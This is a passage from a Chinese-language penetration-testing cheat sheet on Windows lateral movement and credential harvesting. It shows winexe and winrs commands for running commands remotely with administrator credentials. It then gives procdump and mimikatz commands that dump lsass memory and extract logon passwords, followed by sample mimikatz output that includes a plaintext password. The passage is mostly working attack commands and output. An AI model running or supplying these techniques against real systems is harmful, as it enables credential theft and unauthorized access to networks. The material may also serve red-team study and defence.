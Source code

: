 ```

[详细介绍]http://www.91ri.org/12908.html

###  winexe
---
winexe可以从Linux上远程执行windows命令（SMB），kali自带

	./winexe --system -U 'Administrator%123123' //192.168.1.101 'cmd.exe /c whoami'

### PsRemoting
---
2012 r2起,默认端口5985,系统自带远程管理winrs
winrs -r:192.168.1.101 -u:administrator -p:pwd ipconfig

## mimikatz + procdump 获得内存 hash
---
如果服务器是64位，要把Mimikatz进程迁移到一个64位的程序进程中，才能查看64位系统密码明文。32位任意

运行```procdump.exe -accepteula -ma lsass.exe lsass.dmp```(管理权限)后lsass.dmp放到mimikatz.exe同目录，运行以下命令
```mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"```
```
C:\Windows\Temp\test\x64>mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on May  2 2018 00:26:52
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::logonPasswords full
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 4 ; 484366552 (00000004:1cded8d8)
Session           : RemoteInteractive from 4
User Name         : admin
Domain            : xx
Logon Server      : WIN-VEG0FAB6OQS
Logon Time        : 5/5/2018 11:49:44 AM
SID               : S-1-5-21-970513389-3385549917-1141547890-1128
        msv :
         [00000003] Primary
         * Username : admin
         * Domain   : xx
         * NTLM     : xxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxxxxxx
         [00010000] CredentialKeys
         * NTLM     : xxxxxxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxx
        tspkg :
        wdigest :
         * Username : admin
         * Domain   : xx
         * Password : QWEad!@w123
        kerberos :
         * Username : admin
         * Domain   : xx
         * Password : QWEad!@w123
        ssp :